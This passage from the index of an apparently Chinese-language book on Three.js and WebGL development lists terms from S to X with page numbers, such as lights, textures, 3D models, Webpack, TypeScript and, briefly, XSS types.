    - 图像生成, 116–117
    - 加载器 (loader), 117–118
    - 热门最近播放曲目, 119
    - 算法, 119–120
    - 组件的设计与开发, 120–121
    - faith, 加载器, 121–123
    - faith, 进度, 123–125
    - 获取用户最喜欢的歌曲, 119
    - 排行榜, 120
- 聚光灯 (SpotLight), 51, 164, 165, 176
- 展开运算符 (Spread operator), 22–23
- 启动项目布局, 100
- ES5/ES6/ES7 中的 `Stuff` 变量, 20
- `sunMesh`, 38, 39, 41

### T
- 模板, 模板字符串的使用, 23–24
- 文本编辑软件, 7
- 文本几何体 (Text geometry), 34
- 纹理加载器 (`TextureLoader`), 27, 45
- 纹理重复、偏移、旋转和包裹, 47
    - 环境光 (`AmbientLight`), 49
    - 平行光 (`DirectionalLight`), 50
    - 半球光 (`HemisphereLight`), 50
    - 灯光, 48–49
    - 点光源 (`PointLight`), 51
    - 矩形区域光 (`RectAreaLight`), 51
    - 聚光灯 (`SpotLights`), 51
- 纹理 (Textures), 45, 166
    - hello 纹理, 45
    - 纹理加载, 45–46
    - 纹理加载过程, 45
- 3D 开发, 101–102
- 3D 鲁多骰子模型, 175
    - `ambientLight`, 175
    - `pointLight`, 176
    - `spotLight`, 176
    - 使用 `react-three-fiber` 创建, 172
- 3D 模型, 91–92
    - 加载, 101
    - 选择, 100–101
- 3D 渲染分辨率, 129–130
- 3D 场景, 54–55, 94–96
- Three.js, 2–4
- Three.min.js, 3
- 触摸屏输入, 75–76
- 三角扇绘制模式 (`TriangleFanDrawMode`), 168
- TWEEN, 148
- `TweenManager`, 148
- 二维 (2D), 33
- 中心有孔的 2D 圆盘, 34
- Typescript, 171
- Typescript 环境配置, 64

### U
- 游戏 UI 设计, 87–89
- 开发唯一内容, 183
- 更新函数 (`Update function`), 95
- `updateMorphTargets`, 155
- `useMemo` 钩子, 174
- `useRef` 钩子, 173

### V
- 顶点颜色 (Vertex colors), 139
- 视口更新，调整大小, 99
- 虚拟现实 (Virtual reality), 91
- Visual Studio Code, 24
- Vue.js 与 Three.js, 180

### W
- 网页浏览器, 8
    - 选择, 228
- Web 图形库 (WebGL), 1–2, 11, 55, 54–55, 91, 92, 151
    - 兼容性, 27–28
    - 支持的设备, 9
    - WebGL 地球, 130
- Webpack 开发服务器, 63
- 添加 Webpack 文件, 61–64
- 用于输出编码的网页上下文, 159
- Web 服务器, 8
- Windows 用户开发服务器, 96
- 线框几何体 (`WireframeGeometry`), 35–36

### X
- XSS, 159
    - 缓存, 157
    - 反射, 156–157
